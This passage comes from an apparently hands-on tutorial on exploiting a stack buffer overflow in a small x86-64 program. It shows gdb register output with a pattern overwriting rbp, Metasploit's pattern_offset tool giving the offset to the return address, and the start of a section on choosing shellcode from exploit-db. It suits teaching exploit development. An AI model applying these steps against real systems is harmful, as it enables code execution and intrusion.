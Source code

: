 Despite the overflow, the return address doesn't show our pattern. We have to search it somewhere else, in the rbp register instead (remember? the rbp comes just before the return address)

We do that with the command `i r` to show all the registers

```bash
(gdb) i r
rax            0xc9	201
rbx            0x0	0
rcx            0x7ffff7b08894	140737348929684
rdx            0x7ffff7dd48c0	140737351862464
rsi            0x602260	6300256
rdi            0x0	0
rbp            0x6641396541386541	0x6641396541386541  <-------HERE IS THE PATTERN
rsp            0x7fffffffe2b8	0x7fffffffe2b8
r8             0x7ffff7fef4c0	140737354069184
r9             0x77	119
r10            0x5e	94
r11            0x246	582
r12            0x400450	4195408
r13            0x7fffffffe3b0	140737488348080
r14            0x0	0
r15            0x0	0
rip            0x400563	0x400563 <copy_arg+60>
eflags         0x10206	[ PF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
```

We see that the rbp has been overridden with the pattern. We then use metasploit's  `pattern-offset.rb` to query the pattern we found in the rbp

```bash
┌─[✗]─[l1ge@parrot]─[~]
└──╼$/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 6641396541386541
[*] Exact match at offset 144
```

It says that our rbp starts with an offset of 144. We know the rbp is 8 bytes so 144+8 = **152**. The offset we manually found is confirmed.

# 0x2 Picking a shell code

We need a shell code that we will put in our buffer and have the return address points to it. For now I just want a simple shell code, just to drop a shell.

There are a few on exploit-db like [this one](https://www.exploit-db.com/exploits/41750) or [that one](https://www.exploit-db.com/exploits/42179). But I wont make you waste your time like I wasted mine. I've tried most of these simple shell codes and most of them didn't work on our case.  I was getting SIGILL errors all the time.
